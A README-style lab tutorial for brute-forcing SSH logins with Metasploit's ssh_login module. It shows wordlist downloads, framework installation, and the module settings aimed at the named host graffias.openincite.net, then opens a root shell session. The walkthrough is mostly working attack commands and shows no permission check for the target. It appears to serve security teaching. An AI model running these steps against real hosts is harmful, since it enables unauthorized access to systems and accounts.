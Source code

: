 # Bruteforcing-SSH
========

This is a demo which will exploit SSH on a linux host. Once SSH access is gained, privilege escalation is used to become root. 


Downloading Dictionary Files
------------

First we need some get our hands on some basic text files containing a list of commonly used usernames and passwords. These links are subject to change and for the sake of the lab/demo it might just be easier to clone the git repo with `git clone https://github.com/sillihkram/Bruteforcing-SSH.git`.

Download a list of common users & weak passwords
    
    curl https://github.com/sillihkram/Bruteforcing-SSH/raw/main/passwords.txt.gz | gunzip > /tmp/passwords.txt
    curl https://github.com/sillihkram/Bruteforcing-SSH/raw/main/users.txt > /tmp/users.txt

Just so you are familiar, take at the content and format of the files 

    head /tmp/passwords.txt
    head /tmp/users.txt



# Installing Metasploit
------------

Download the latest version of Metasploit Framework (OSS)

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

Set Permissions 

    chmod 755 msfinstall

 Run the install script

    ./msfinstall

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path
    
    ls /opt/
    echo $PATH

Add the `/opt/metasploit-framework/bin/` directory to our path


    PATH=/opt/metasploit-framework/bin/:$PATH


Add Metasploit repo to our system and make sure we have the latest version.

    msfupdate



# Using Metasploit
------------

Launch the metasploit framework console

 
    msfconsole


List the available exploits modules for metasploit


    show exploits

Because there are over 2000 modules it may make more sense to search for one we're looking for
 
    search ssh login

For this demo select the auxiliary/scanner/ssh/ssh_login exploit module

    use auxiliary/scanner/ssh/ssh_login


List the options available for this module

    options

Define options for ssh_login module to launch a brute force attack against a target host

    set stop_on_success
    set pass_file /tmp/password.txt
    set user_file /tmp/users.txt
    set threads 10


Define a target
    
    set rhost graffias.openincite.net

Launch the brute force attack

    exploit

if Metasploit successfully authenitcates with a usr/pass provided in the lists you'll see a message similar to the following:

`[+] 192.168.0.136:22 - Success: 'root:password'`


Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions

    sessions

To interact with the open session use the sessions command: `sessions -i <session id>`

    sessions -i 1

Now you are connected to a shell on the target. try typing some basic shell commands

    hostname -f
    uname -a

# Enumerating a Host
------------

connect to the target using the discovered credentials

    ssh graffias.openincite.net -l root
